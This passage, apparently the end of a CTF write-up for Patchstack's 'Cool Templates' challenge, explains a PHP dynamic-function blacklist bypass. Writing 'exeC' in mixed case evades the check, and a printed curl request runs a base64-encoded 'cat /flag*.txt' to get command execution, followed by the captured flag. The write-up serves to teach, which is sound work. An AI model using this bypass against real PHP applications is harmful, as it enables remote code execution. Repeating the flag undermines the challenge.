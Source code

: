 With that said, we can't forge our own session cookies that easily.

Huh... It seems like there's no functions that could gain RCE. Maybe there's another approach?

## Exploitation

Since the blacklisted functions check didn't convert our function name (`$template`) to lower-case characters, maybe we can leverage upper-case characters to bypass the check?

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Cool-Templates)-[2025.02.26|16:37:35(HKT)]
└> php -a
[...]
php > echo exeC("whoami");
siunam
```

Oh my god, PHP, why?!?!?

Anyways, we can now bypass the validations with just a simple upper-case characters trick.

Therefore, to get the flag, we can send the following request:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Cool-Templates)-[2025.02.26|16:46:16(HKT)]
└> curl --get http://52.77.81.199:9122/ --data "template=exeC&content=$(echo 'cat /flag*.txt' | base64)"
[...]
CTF{C00l_T3mpl4t3s_759eee4d}<script id="wp-block-template-skip-link-js-after">
```

- **Flag: `CTF{C00l_T3mpl4t3s_759eee4d}`**

## Conclusion

What we've learned:

1. Dynamic function call filter bypass via upper-case characters